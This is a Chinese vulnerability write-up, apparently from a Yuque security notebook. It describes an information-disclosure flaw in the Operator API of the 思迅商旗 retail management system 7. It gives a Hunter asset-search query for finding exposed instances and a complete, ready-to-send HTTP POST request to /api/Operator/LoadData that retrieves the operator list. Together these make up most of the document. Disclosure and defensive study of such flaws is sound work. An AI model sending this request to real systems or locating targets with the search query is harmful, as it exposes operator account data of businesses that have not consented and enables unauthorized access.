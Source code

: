 # 思迅商旗商业管理系统7 Operator存在信息泄露漏洞

# 一、漏洞简介
思迅商旗商业管理系统是基于互联网部署的全新零售管理系统。提炼各架构优势之大成，打造全新互联网产品。思迅商旗商业管理系统Operator存在信息泄露漏洞。

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 思迅商旗商业管理系统7

# 三、资产测绘
+ hunter`app.name=="思迅商旗"`
+ 特征

![1705060048606-5d05fc49-9ceb-4db7-84e0-7304c7456bf4.png](./img/4u1P83hisIgQdJ6S/1705060048606-5d05fc49-9ceb-4db7-84e0-7304c7456bf4-962899.png)

# 四、漏洞复现
```java
POST /api/Operator/LoadData HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Length: 68
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cache-Control: no-cache
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

loadAll=false&oper_role=&field=&operator=&value=1001&gridFlag=OperatorList&page=1&rows=10
```

![1705060505001-32bb86d5-04df-4001-888a-4880bd5e7c92.png](./img/4u1P83hisIgQdJ6S/1705060505001-32bb86d5-04df-4001-888a-4880bd5e7c92-968676.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/afl5poxqgwpz8yhp>